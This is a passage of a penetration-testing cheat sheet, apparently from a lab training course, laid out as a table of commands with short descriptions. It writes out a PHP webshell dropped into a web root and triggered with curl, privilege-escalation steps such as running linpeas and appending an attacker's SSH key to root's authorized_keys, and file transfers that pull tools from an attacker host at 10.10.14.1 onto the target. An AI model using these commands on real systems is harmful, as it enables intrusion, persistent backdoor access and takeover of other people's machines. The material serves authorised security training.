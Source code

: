 | `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                     | Create a webshell php file                                            |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                         | Execute a command on an uploaded webshell                             |
| <span style="color:#00ff73">**Privilege Escalation**</span>                           |                                                                       |
| `./linpeas.sh`                                                                        | Run `linpeas` script to enumerate remote server                       |
| `sudo -l`                                                                             | List available `sudo` privileges                                      |
| `sudo -u user /bin/echo Hello World!`                                                 | Run a command with `sudo`                                             |
| `sudo su -`                                                                           | Switch to root user (if we have access to `sudo su`)                  |
| `sudo su user -`                                                                      | Switch to a user (if we have access to `sudo su`)                     |
| `ssh-keygen -f key`                                                                   | Create a new SSH key                                                  |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`          | Add the generated public key to the user                              |
| `ssh root@10.10.10.10 -i key`                                                         | SSH to the server with the generated private key                      |
| <span style="color:#00ff73">**Transferring Files**</span>                             |                                                                       |
| `python3 -m http.server 8000`                                                         | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                                              | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                | Download a file on the remote server from our local machine           |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`                                      | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                                                   | Convert a file to `base64`                                            |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`                                     | Convert a file from `base64` back to its orig                         |
| `md5sum shell`                                                                        | Check the file's `md5sum` to ensure it converted correctly            |
